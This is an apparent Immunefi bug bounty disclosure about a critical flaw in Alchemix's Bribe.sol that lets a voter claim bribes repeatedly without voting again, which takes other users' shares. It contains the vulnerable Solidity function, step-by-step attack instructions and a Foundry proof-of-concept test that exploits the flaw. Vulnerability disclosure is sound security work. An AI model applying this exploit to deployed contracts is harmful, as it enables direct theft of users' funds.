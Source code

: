 
# A user is able to claim more bribes than they have earned

Submitted on Mon May 20 2024 20:09:30 GMT-0400 (Atlantic Standard Time) by @hulkvision for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31526

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol

Impacts:
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield
- A user is be able to claim more bribes than they have earned

## Description
## Brief/Intro
A user is able to claim more bribes than they have earned by  claiming bribes for epochs they have not voted in. 
## Vulnerability Details
A user can claim bribes in next epoch for epochs they have voted in and once they have claimed bribes for the previous epoch they should  not be able to claim bribes again without voting or poke. 

The issue is when user claims the bribe reward for an epoch instead of balance of user getting reset, the balance of user remains unchanged and this allows user to claim bribe reward even for epochs they have not voted in.

In `Bribe.sol`
```solidity
function getRewardForOwner(uint256 tokenId, address[] memory tokens) external lock { 
        require(msg.sender == voter, "not voter");
        address _owner = IVotingEscrow(veALCX).ownerOf(tokenId);
        uint256 length = tokens.length;
        for (uint256 i = 0; i < length; i++) {
            uint256 _reward = earned(tokens[i], tokenId);

            require(_reward > 0, "no rewards to claim");

            lastEarn[tokens[i]][tokenId] = block.timestamp;

            _writeCheckpoint(tokenId, balanceOf[tokenId]); //@audit-issue balanceOf[tokenId] does reset to zero after claiming bribe and checkpoint is created with previous balance.

            IERC20(tokens[i]).safeTransfer(_owner, _reward);

            emit ClaimRewards(_owner, tokens[i], _reward);
        }
    }
```
> Steps for Attack
* User A and User B(BlackHat) create two tokenId with same amount and maxLock enabled.
* In Epoch 1 Both User A and User B(BlackHat) votes by calling `vote` function in `Voter.sol` thus becoming eligible for claiming bribes in epoch 2.
* In Epoch 2 Both User A and User B claims bribe and only user A votes in 
  epoch 2 so only User A should become eligible for claiming bribe in epoch 3 .
* In Epoch 3 User B claims bribe by calling `claimBribes` from `Voter.sol` here user B should not be able to claim bribe in epoch 3 because user B has already claimed bribe for voting in Epoch 1 in Epoch 2 and did not voted again in Epoch 3 but user B was able to claim bribe because of the vulnerability.

## Impact Details
* One of the assumed invariant set by Team has been broken 
>A user should never be able to claim more bribes than they have earned

* BlackHat can also prevent some users from claiming their share of bribe by  calling `claimBribes` before them and stealing their share of bribes.

## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L283-300

        
## Proof of concept
## Proof of Concept
* Add this test to `src/test/Voting.t.sol` and run with 
`forge test --mt testPOCVoteOnceAndClaimBribes() --rpc-url $RPC_URL -vvvv
`
```
function testPOCVoteOnceAndClaimBribes() public {
        uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, MAXTIME, true); // this user will be inconsistent in voting and claiming
        uint256 tokenId2 = createVeAlcx(beef, TOKEN_1, MAXTIME, true); //this will actively participate in voting

        
        address bribeAddress = voter.bribes(address(sushiGauge));
        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](1);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;

        // add bribes
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        //first epoch
        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);

        hevm.prank(beef);
        voter.vote(tokenId2, pools, weights, 0);

        //2nd epoch
        hevm.warp(newEpoch());
        voter.distribute();
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        // only admin voted and beef did not voted in epoch2
        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);

        hevm.prank(admin);
        voter.claimBribes(bribes, tokens, tokenId1);

        // beef has claimed his bribes for voting in epoch 1 and did not voted in epoch 2
        hevm.prank(beef);
        voter.claimBribes(bribes, tokens, tokenId2);

        uint256 balanceEnd1 = IERC20(bal).balanceOf(bribeAddress);

        //bribe address should have 100k token which was deposited at the start of 2nd epoch
        assertEq(balanceEnd1,TOKEN_100K,"bribeAddress should have 100k which was deposited at the start of 2nd epoch");

        // 3rd epoch
        hevm.warp(newEpoch());
        voter.distribute();
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K); // this will be used in epoch 4

        //beef did not voted in  epoch 2 and already claimed bribe in epoch2 for voting in epoch1, so this should have reverted
        hevm.prank(beef);
        voter.claimBribes(bribes, tokens, tokenId2);
        console.log("beef  claimed bribe twice without voting or poke",IERC20(bal).balanceOf(beef));

        // admin voted in epoch 3
        hevm.prank(admin);
        voter.claimBribes(bribes, tokens, tokenId1);

        
        //4th epoch 
        hevm.warp(newEpoch());
        voter.distribute();
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        //beef immediately claimed bribe in the begining of epoch 4
        hevm.prank(beef);
        voter.claimBribes(bribes, tokens, tokenId2);

        hevm.prank(admin);
        // it will revert because of insufficient balance in bribe contract because beef has claimed bribe before admin
        vm.expectRevert(); 
        voter.claimBribes(bribes, tokens, tokenId1);

    }

```